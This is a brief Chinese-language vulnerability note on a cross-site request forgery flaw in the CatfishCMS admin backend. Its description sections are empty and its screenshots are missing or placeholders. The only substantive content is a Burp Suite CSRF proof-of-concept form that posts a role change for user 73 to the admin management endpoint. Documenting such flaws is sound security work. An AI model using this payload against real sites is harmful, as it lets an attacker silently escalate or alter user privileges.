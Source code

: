 CatfishCMS后台csrf
==================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

首先需要登录后台

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
          <input type="hidden" name="uid" value="73" />
          <input type="hidden" name="juese" value="3" />
          <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

修改前

![](./resource/CatfishCMS后台csrf/media/rId24.png)

修改后

image
